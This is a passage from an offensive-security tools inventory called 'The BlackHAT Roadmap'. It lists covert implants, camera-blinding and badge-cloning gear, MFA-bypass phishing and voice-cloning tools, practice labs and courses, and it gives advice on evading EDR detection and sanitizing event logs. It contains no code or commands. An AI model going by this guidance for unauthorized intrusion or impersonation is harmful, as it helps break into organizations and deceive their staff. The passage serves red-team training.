| **850nm / 940nm High-Power IR Illuminators** | `COMMERCIAL` (~$20-$45) | Optical supply | Infrared LED flashlights that flood CMOS camera sensors with invisible IR radiation, blinding camera lenses in low-light environments without alerting humans. |
| **10x-30x Optical Monocular** | `COMMERCIAL` (~$50-$120) | Vortex / Celestron | Compact multicoated optical monocular for long-distance physical reconnaissance: guard rotations, door hardware identification, and PIN entry over-the-shoulder observation. |
| **DJI Mini 4 Pro / Air 3** | `COMMERCIAL` (~$759+) | https://www.dji.com | Sub-250g ultra-quiet reconnaissance drone with 4K telephoto cameras for aerial physical site mapping, roof access evaluation, and fence inspection. |
| **DJI Matrice 30T / Radiometric Thermal Drone** | `COMMERCIAL` (~$9,000+) | Enterprise drone supply | Enterprise thermal imaging drone providing radiometric heat mapping to spot active guard patrols, server room HVAC exhaust venting, and personnel movement at night. |
| **PVC Card Printers (Fargo / Evolis)** | `COMMERCIAL` (~$800-$2,500) | Fargo / Evolis | High-definition dye-sublimation PVC identity card printers for producing visual duplicate corporate visitor badges, contractor passes, and inspection credentials. |

---

### 🔌 Covert Hardware Implants & Field Dropboxes

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Hak5 LAN Turtle** | `COMMERCIAL` (~$60) | https://hak5.org | Covert USB-to-Ethernet implant providing automated remote access, DNS spoofing, and reverse SSH / WireGuard tunnels when plugged behind workstations. |
| **Hak5 Shark Jack** | `COMMERCIAL` (~$100) | https://hak5.org | Portable network assessment tool in a compact form factor for automated inline Ethernet reconnaissance and payloads. |
| **Hak5 WiFi Pineapple** | `COMMERCIAL` (~$120-$200) | https://hak5.org | Wireless auditing platform for automated rogue AP deployment, karma attacks, and credential harvesting. |
| **Raspberry Pi Zero 2W / CM4 Custom Dropbox** | `FREE (hardware)` (~$50-$120) | Custom build | Low-profile Linux dropbox with 4G/LTE USB modem, external high-gain Wi-Fi, and WireGuard tunneling for unattended internal network access. |
| **O.MG Cable / KeyCropper** | `COMMERCIAL` (~$120-$180) | https://o-mg.tech | Malicious USB cable with hidden 802.11 Wi-Fi micro-controller for wireless keystroke injection, payload deployment, and hardware keylogging. |
| **Chisel (jpillora)** | `OSS` | https://github.com/jpillora/chisel | Fast TCP/UDP reverse tunneling tool over HTTP secured via SSH. Deployed on covert field dropboxes to provide an encrypted SOCKS5 pivot directly into internal corporate subnets. |
| **WireGuard** | `OSS` | https://www.wireguard.com | Modern, high-performance kernel-level encrypted UDP tunnel (port 51820). Serves as the primary out-of-band reverse C2 conduit between field dropboxes and cloud redirectors. |

---

### 🎭 Social Engineering, Elicitation & Vishing

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **GoPhish** | `OSS` | https://github.com/gophish/gophish | Open-source phishing framework for orchestrating corporate email phishing simulations, landing pages, and credential tracking. |
| **Evilginx3** | `OSS` | https://github.com/kgretzky/evilginx2 | Advanced reverse-proxy phishing framework bypassing MFA by harvesting session authentication cookies in real time. |
| **Asterisk / Twilio VoIP Stacks** | `OSS` / `COMMERCIAL` | https://www.asterisk.org / https://www.twilio.com | Configurable PBX and SIP telephony infrastructure supporting authorized caller ID spoofing and recording for structured vishing pretexts. |
| **ElevenLabs Voice Cloning** | `COMMERCIAL` | https://elevenlabs.io | High-fidelity voice synthesis engine used to clone voice timbres and speech cadence for targeted social engineering phone tests. |
| **MicroSIP / Linphone** | `OSS` | https://www.microsip.org / https://www.linphone.org | Lightweight SIP/VoIP softphones used by operators to interface with local Asterisk PBX instances and Twilio SIP trunks for live voice vishing and pretexting. |
| **OSINT Profiling Stack (holehe, PhoneInfoga, Sherlock, Maltego)** | `OSS` | GitHub / Paterva | Tools for mapping corporate organizational structures, identifying active employee email addresses, phone carriers, and linked social profiles for pretexts. |

---

### ⚛️ Quantum Computing 2027 & Post-Quantum Cryptography (PQC)

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **liboqs (Open Quantum Safe)** | `OSS` | https://github.com/open-quantum-safe/liboqs | C library for quantum-resistant cryptographic algorithms implementing NIST PQC standards (ML-KEM, ML-DSA, Falcon, SPHINCS+). |
| **OQS-OpenSSL3** | `OSS` | https://github.com/open-quantum-safe/oqs-provider | OpenSSL 3.x provider integrating quantum-safe key exchange and digital signature algorithms into standard TLS connections. |
| **Dumpcap / Arkime (Moloch)** | `OSS` | https://arkime.com | High-performance raw packet indexing and capture platform deployed for Store-Now-Decrypt-Later (SNDL) encrypted network traffic harvesting. |
| **pq-crystals Reference Implementations** | `OSS` | https://github.com/pq-crystals | Official reference codebases for CRYSTALS-Kyber and CRYSTALS-Dilithium used for side-channel timing analysis and implementation auditing. |
| **testssl.sh / sslyze** | `OSS` | https://testssl.sh / https://github.com/nabla-c0d3/sslyze | TLS configuration auditing tools capable of identifying legacy RSA/ECC ciphers, hybrid post-quantum cipher suites, and TLS downgrade risks. |

---

### 📡 Technical Surveillance Countermeasures (TSCM)

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **RF Explorer 6G Combo** | `COMMERCIAL` (~$350-$400) | https://www.rf-explorer.com | Handheld digital RF spectrum analyzer covering 15MHz to 6.1GHz for identifying unauthorized RF transmitters, analog bugs, and GSM bursts. |
| **HackRF One + PortaPack H2 (Mayhem)** | `COMMERCIAL` (~$150-$250) | https://greatscottgadgets.com/hackrf/ | Portable wideband SDR transceiver with onboard spectrum waterfall display for sweeping and capturing raw surveillance bug transmissions. |
| **ORION 2.4 / REI Non-Linear Junction Detector** | `COMMERCIAL` (~$12,000-$25,000) | Research Electronics International (REI) | Premier NLJD emitting RF energy and detecting 2nd and 3rd harmonic returns to pinpoint silicon semiconductors, whether transmitters are powered or dormant. |
| **SpyFinder PRO / Optical Lens Detectors** | `COMMERCIAL` (~$150-$300) | Spy Associates / REI | Ultra-bright pulsing LED array paired with a specialized optical viewing filter that reveals hidden pinhole camera lenses via retro-reflection. |
| **InfiRay P2 Pro / FLIR ONE Thermal Cameras** | `COMMERCIAL` (~$250-$400) | InfiRay / FLIR | High-sensitivity micro-thermal cameras plugging into smartphones to detect heat signatures generated by hidden transmitters and covert listening devices. |

---

### 📋 Red Team Operations, Governance & Reporting

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Ghostwriter** | `OSS` | https://github.com/GhostManager/Ghostwriter | Enterprise red team engagement management platform by SpecterOps: track operational logs, attack chains, evidence, and generate automated Word reports. |
| **PlexTrac** | `COMMERCIAL` | https://plextrac.com | Centralized cybersecurity reporting platform for authoring red team findings, mapping to MITRE ATT&CK, and managing real-time remediation tracking. |
| **TIBER-EU & CBEST Frameworks** | `FREE` | European Central Bank / Bank of England | Regulatory frameworks and guidelines defining Threat-Intelligence-Led Ethical Red-teaming standards for critical financial and national infrastructure. |
| **Post-Engagement Cleanup Scripts** | `OSS` | Project-specific / GitHub | Custom automated PowerShell and Bash scripts to rollback persistence mechanisms, delete dropped implants, and sanitize Windows Sysmon and Event Logs. |

---

<a id="practice-platforms"></a>
## Practice Platforms

> You cannot learn exploitation without practicing. Use these platforms daily.
> Phase 0–2: TryHackMe → HackTheBox. Phase 3+: HTB, pwn.college, CTFs.

| Platform | License | Link | Best For |
|----------|---------|------|----------|
| **HackTheBox** | `FREEMIUM` (~$14/mo VIP) | https://hackthebox.com | Full exploitation path. Free tier is enough to start. VIP unlocks retired machines with walkthroughs. Pro Labs (Offshore, RastaLabs) are the best AD practice available anywhere. |
| **TryHackMe** | `FREEMIUM` (~$14/mo) | https://tryhackme.com | Best guided beginner content. Learning paths for every phase. Start here at Phase 0. Browser-based lab access. |
| **PortSwigger Web Academy** | `FREE` | https://portswigger.net/web-security | The best free web security learning resource available. Labs for every OWASP category plus advanced topics (HRS, SSTI, JWT, OAuth, prototype pollution). Do every lab. |
| **pwn.college** | `FREE` | https://pwn.college | ASU-backed structured binary exploitation curriculum. Modules from shellcode through kernel exploitation. The best free binary exploitation resource. |
| **pwnable.kr** | `FREE` | https://pwnable.kr | Binary exploitation challenges. Classics: `fd`, `collision`, `bof`, `flag`, `passcode`. Essential Phase 3 practice. |
| **OverTheWire** | `FREE` | https://overthewire.org | Linux and web wargames. Start with `Bandit` for Linux command-line fundamentals. `Narnia` and `Natas` for exploitation basics. |
| **PicoCTF** | `FREE` | https://picoctf.org | Carnegie Mellon University CTF. Beginner-friendly categories. Good Phase 0–1 practice. |
| **VulnHub** | `FREE` | https://vulnhub.com | Downloadable vulnerable VMs. Practice offline. Wide variety of difficulty levels. |
| **PwnTillDawn** | `FREEMIUM` | https://online.pwntilldawn.com | AD-focused lab environment. Less known but excellent for AD practice when HTB Pro Labs are too expensive. |
| **Hack The Box Pro Labs** | `COMMERCIAL` (~$49–$99/mo) | https://hackthebox.com/hacker/pro-labs | **Offshore** (multi-domain enterprise AD), **RastaLabs** (phishing + AD), **APTLabs** (nation-state TTPs). The best available AD red team practice environment. |

---

<a id="essential-resources"></a>
## Essential Resources

### 📚 Reference Databases

| Resource | Link | What It Is |
|----------|------|-----------|
| **PayloadsAllTheThings** | https://github.com/swisskyrepo/PayloadsAllTheThings | Payload and bypass collection for every attack category. Your first stop for payload syntax. |
| **HackTricks** | https://book.hacktricks.xyz | Extensive offensive techniques wiki. Everything from web to hardware to cloud, with examples. |
| **GTFOBins** | https://gtfobins.github.io | Unix binary exploitation reference. |
| **LOLBAS** | https://lolbas-project.github.io | Windows LOLBAS reference. |
| **LOLDrivers** | https://www.loldrivers.io | Signed vulnerable Windows drivers database. |
| **Exploit-DB** | https://www.exploit-db.com | Public exploit repository. `searchsploit` CLI tool uses this database. |
| **MITRE ATT&CK** | https://attack.mitre.org | Adversary tactics and techniques matrix. Map your attacks here for reporting. |
| **PortSwigger Research** | https://portswigger.net/research | James Kettle's web security research. HTTP RS, cache poisoning, request tunneling - the source. |
| **SpecterOps Blog** | https://posts.specterops.io | The most important AD/identity attack research blog. Subscribe. |
| **Malpedia** | https://malpedia.caad.fkie.fraunhofer.de | Malware family reference. Understand what threat actors deploy. |

### 🎓 Must-Read Books (Phase-Ordered)

| Book | Author | Phase | Notes |
|------|--------|-------|-------|
| The C Programming Language | Kernighan & Ritchie | Phase 0 | Read this. K&R C is still the best C introduction. |
| Operating Systems: Three Easy Pieces | Arpaci-Dusseau | Phase 0 | Free: https://ostep.org - concurrency, memory, persistence |
| The Linux Programming Interface | Kerrisk | Phase 0 | Deep Linux. Chapters on processes, signals, sockets, memory. |
| Hacking: The Art of Exploitation (2nd ed) | Erickson | Phase 1–3 | The book that introduced shellcode to a generation. Still valid. |
| The Shellcoder's Handbook | Anley et al. | Phase 3 | Stack overflows, heap overflows, format strings. Read this before Phase 3 hands-on. |
| Practical Binary Analysis | Andriesse | Phase 3 | Free PDF. ELF internals, dynamic instrumentation, taint analysis. |
| A Guide to Kernel Exploitation | Perla & Oldani | Phase 3–4E | Linux kernel exploitation. The standard reference. |
| Hacking APIs | Corey Ball | Phase 1 | Best API security testing book. Current. |
| Windows Internals (Part 1 + 2) | Russinovich et al. | Phase 4 | How Windows actually works internally. Essential for Phase 4A–4E. |
| Windows Kernel Programming | Yosifovich | Phase 4E | Writing Windows kernel drivers. Learn before attacking them. |
| Practical Malware Analysis | Sikorski & Honig | Phase 4A | The standard malware analysis textbook. |
| Rootkits and Bootkits | Matrosov et al. | Phase 4E | History and implementation of rootkits and UEFI bootkits. The only book on this topic. |
| The Fuzzing Book | Zeller et al. | Phase 3–4D | Free: https://www.fuzzingbook.org - theory and practice of fuzzing. |
| Red Team Development and Operations | Vest | Phase 4 | Enterprise red team operations methodology. |

### 🎥 YouTube Channels (Active 2027)

| Channel | Focus | Link |
|---------|-------|------|
| LiveOverflow | Binary exploitation, web, CTF methodology | https://youtube.com/@LiveOverflow |
| ippsec | HackTheBox machine walkthroughs | https://youtube.com/@ippsec |
| John Hammond | CTF, malware analysis, security news | https://youtube.com/@_JohnHammond |
| TCM Security | Practical pentesting, AD attacks | https://youtube.com/@TCMSecurityAcademy |
| stacksmashing | Hardware, firmware, embedded, NFC | https://youtube.com/@stacksmashing |
| HuskyHacks | Active Directory attacks, Cobalt Strike | https://youtube.com/@HuskyHacks |
| VX-Underground | Malware, threat actor research | https://youtube.com/@vxunderground |
| OALabs | Malware analysis, unpacking, RE | https://youtube.com/@oalabs |
| STÖK | Bug bounty methodology, recon | https://youtube.com/@STOKfredrik |
| DEF CON | Conference talks, cutting edge research | https://youtube.com/@DEFCONConference |
| Black Hat | Professional offensive/defensive research | https://youtube.com/@BlackHatOfficialYT |
| pwn.college | Structured binary exploitation courses | https://youtube.com/@pwncollege |

### 📋 Courses (2027)

| Course | Provider | Cost | When to Take |
|--------|----------|------|--------------|
| PEN-200 (OSCP) | Offensive Security | ~$1,499 | After Phase 2. Entry-level cert. |
| PEN-300 (OSEP) | Offensive Security | ~$1,499 | Phase 4 level. Evasion + AD. |
| EXP-301 (OSED) | Offensive Security | ~$1,499 | Phase 3–4. Windows exploit dev. |
| CRTO (Red Team Ops) | ZeroPointSecurity | ~$500 | Phase 4B. Cobalt Strike + AD. |
| CRTE | Altered Security | ~$400 | Phase 4I depth. AD attacks. |
| Sektor7 Maldev | Sektor7 | ~$150 | Phase 4A start. Best maldev intro. |
| Maldev Academy | Maldev Academy | ~$500/yr | Phase 4A–4C comprehensive. |
| TCM Practical Ethical Hacking | TCM Security | ~$30 | Phase 0–2. Best price/value intro. |

---

<a id="deprecated-stack"></a>
## ❌ Deprecated Stack - Do Not Use

> These tools are confirmed dead, unmaintained, or have been superseded.
> Do not install them. Do not follow tutorials that recommend them without checking this list first.

| ❌ Dead Tool | ✅ Use Instead | Why Dead |
|------------|--------------|---------|
| **CrackMapExec (CME)** | **NetExec (nxc)** | Dead upstream. No active development. NetExec is the direct fork that's maintained. |
| **Cuckoo Sandbox** | **CAPE Sandbox / Tria.ge** | Unmaintained. Python 2 dependency chain is broken. CAPE is the active continuation. |
| **Evilginx2** | **Evilginx3** | Old version has known detection signatures. Use Evilginx3 (same repo, updated tag/release). |
| **MSOLSpray** | **CredMaster** | Caught by modern Microsoft detection. CredMaster uses FireProx (AWS API Gateway) for IP rotation. |
| **LocalMonero** | **Haveno** | LocalMonero closed permanently in November 2024. Haveno is the P2P replacement. |
| **gobuster (for recursion)** | **feroxbuster** | Non-recursive. feroxbuster is Rust-based, recursive by default, faster. Use gobuster only if you specifically want non-recursive single-pass. |
| **dirb / dirbuster** | **ffuf or feroxbuster** | Ancient, slow, noisy. ffuf is 10x faster with more flexibility. |
| **Mimikatz (direct deployment)** | **nanodump / lsassy / pypykatz** | Mimikatz is caught by every EDR and AV product. Use for learning and lab work. Never deploy directly against a defended system. Use nanodump to dump, pypykatz to parse offline. |
| **BloodHound (legacy)** | **BloodHound CE** | Legacy BloodHound is no longer maintained. BloodHound Community Edition (SpecterOps) is the current version with active development. |
| **Metasploit (as primary C2)** | **Sliver / Havoc** | Meterpreter has extremely high EDR detection rates. Metasploit remains valuable for exploit modules and payload generation, not as a C2 for defended environments. |
| **PowerSploit (Invoke-Mimikatz)** | **Rubeus / nanodump** | PowerShell AMSI + logging catches this. Use C# tooling (Rubeus) or direct syscall approaches. |
| **Empire (original)** | **Sliver / Havoc** | Original Empire framework is dead. BC-Security's fork exists but detection rates are high. |
| **Covenant** | **Sliver / Havoc** | Development stopped. High detection rate. |
| **BeEF** | **Modern AiTM (Evilginx3)** | Browser Exploitation Framework is largely obsolete for modern browsers. Cookie theft via AiTM is more effective. |
| **Searchsploit (alone)** | **nuclei + manual CVE research** | Searchsploit database goes stale. Use as reference, but verify against NVD/GitHub for current PoCs. |

---

<div align="right">

*Tools Inventory - The BlackHAT Roadmap v1.2.0 · Authoritative 2027 Edition*<br/>
*Covers: Phase -1 through Phase 6 · ~270 tools · All URLs verified · No deprecated tools*

</div>

---